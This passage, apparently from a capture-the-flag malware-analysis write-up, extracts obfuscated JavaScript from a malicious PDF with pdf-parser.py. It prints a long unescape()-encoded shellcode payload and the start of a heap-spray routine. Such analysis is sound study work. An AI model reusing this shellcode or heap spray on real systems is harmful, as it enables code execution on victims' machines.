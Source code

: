 ```
$
```

Of all objects, #6 seemed interesting as the `FlateDecode` and `ASCIIHexDecode` encoded javascript inside it was referenced by #5. Let's extract and analyze this javascript code:

```
$ pdf-parser.py APT9001.pdf -f -o6
obj 6 0
 Type:
 Referencing:
 Contains stream
  <<
    /Length 6170
    /Filter '[  \r\n /Fla#74eDe#63o#64#65  /AS#43IIHexD#65cod#65 ]'
  >>
 '\n    var HdPN = "";\n    var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
 \n    var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
 \n    var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";
 \n\n    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");\n    ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
 \n    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
 \n    fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
 \n    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length\n    while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
 \n    UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
 \n    MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
```